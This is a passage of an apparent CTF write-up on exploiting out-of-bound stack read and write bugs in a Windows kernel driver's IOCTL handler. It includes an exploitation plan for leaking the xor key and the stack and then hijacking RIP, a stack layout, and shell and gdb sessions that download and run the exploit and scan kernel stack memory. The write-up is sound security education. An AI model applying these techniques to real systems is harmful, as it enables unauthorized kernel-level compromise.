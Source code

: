 Well, this is ["shoot me in the face"](https://youtu.be/GkQCAHwz9W0?t=6) kind
of  
thing - two very straightforward OOB errors, which allow us to read from and
to  
write to the stack. To add insult to injury, the code uses Neither I/O via  
`Type3InputBuffer`, which points directly to userspace, instead of the
promised  
Direct I/O, which would require [dancing with MDLs](  
https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/using-mdls  
).

Exploitation plan:  
* `DeviceIoControl(InputBufferLength=InputBufferLength=0x100)` in order to  
figure out the value of the xor key.  
* `DeviceIoControl(InputBufferLength=0, OutputBufferLength>0x100)` in order to  
read the stack.  
* `DeviceIoControl(InputBufferLength>0x100, OutputBufferLength=0)` in order to  
overwrite the stack and control the value of `RIP`.

By analyzing the assembly code we can learn the stack layout:

* `0x0`: `CryptoBuffer`.  
* `0x100`: Security cookie - will end up being useless very soon.  
* `0x128`: return to `IrpMjDeviceControl+0x5a` - now we know the driver  
load address.  
* `0x158`: return to somewhere in the kernel.

We don't know where the kernel and the stack are, but this is enough
information  
to set meaningful breakpoints. Let's stop at `DoDeviceControl + 0x103` (that's  
the `ret` instruction we plan to control) and check out the stack again:

```  
host$ python3 -m http.server &  
host$ x86_64-w64-mingw32-gcc -o exploit.exe exploit.c  
host$ nc localhost 50216  
c:\ctf>  cd tmp  
c:\ctf\tmp> curl http://<host ip>:8000/exploit.exe -o exploit.exe  
c:\ctf\tmp> exploit.exe /scout  
Key:           0x6c3bae58430487b4  
Driver base:   0xfffff8035ddd1000  
(gdb) b *(0xfffff8035ddd1000+0x140005103-0x140001000)  
(gdb) c  
c:\ctf\tmp> exploit.exe /scout  
(gdb) p/x $rsp  
0xfffff68e9e3697e8  
```

Let's scan the stack for stack addresses:

```  
(gdb) python  
addr = 0xfffff68e9e3697e8  
import struct  
i = gdb.inferiors()[0]  
while True:  
   val, = struct.unpack('<Q', i.read_memory(addr, 8))  
   if val >= 0xfffff68e00000000 and val < 0xfffff68f00000000:  
       print(hex(addr) + ' ' + hex(val))  
   addr += 8  
end  
0xfffff68e9e369860 0xfffff68e9e369b80  
```
